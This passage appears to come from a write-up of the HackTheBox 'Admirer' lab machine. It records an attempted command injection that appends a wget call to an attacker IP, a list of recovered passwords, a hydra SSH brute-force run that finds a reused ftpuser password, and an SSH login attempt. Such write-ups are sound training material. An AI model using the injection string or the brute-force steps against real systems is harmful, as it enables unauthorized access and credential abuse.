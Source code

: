 The options are disabled, but I can edit the request in burp, that did not work. I always end up with a message like that "Insufficient privileges to perform the selected operation." I wasn't able to inject code into it (by using the following task: `task=1 && wget [http://10.10.16.6/index.html](http://10.10.16.6/index.html)`) but that did also not work.

I create a file for the passwords:

```
Wh3r3_1s_w4ld0?
w0rdpr3ss01!
%n?4Wz}R$tTF7
fgJr6q#S\W:$P
```

I checked for a password reuse on the ssh service. For this, I used hydra and the lists I created earlier:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/admirer]
└─$ hydra -L users.txt -P passwords.txt admirer.htb -t 4 ssh      
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military 
   or secret service organizations, 
   or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-09-20 12:43:43
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a 
    previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 64 login tries (l:16/p:4), ~16 tries per task
[DATA] attacking ssh://admirer.htb:22/
[22][ssh] host: admirer.htb   login: ftpuser   password: %n?4Wz}R$tTF7
[STATUS] 64.00 tries/min, 64 tries in 00:01h, 1 to do in 00:01h, 4 active
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2021-09-20 12:44:56
```

As you see, the password for the ftpuser is reused. I try to log in:

```bash
┌──(user㉿KaliVM)-[/hackthebox/oscp-prep/admirer]
└─$ ssh ftpuser@admirer.htb
ftpuser@admirer.htb's password: 
Linux admirer 4.9.0-12-amd64 x86_64 GNU/Linux

The programs included with the Devuan GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Devuan GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Mon Sep 20 11:56:23 2021 from 10.10.16.6
Connection to admirer.htb closed.
```

The connection does not work, I tried to troubleshoot but I could not get it to work. I ran more scans on the directories I know already through the backup archive. I used dirsearch (this is usually pretty fast for small scans, and could also search sub directories). I found something in the utility-scripts directory:
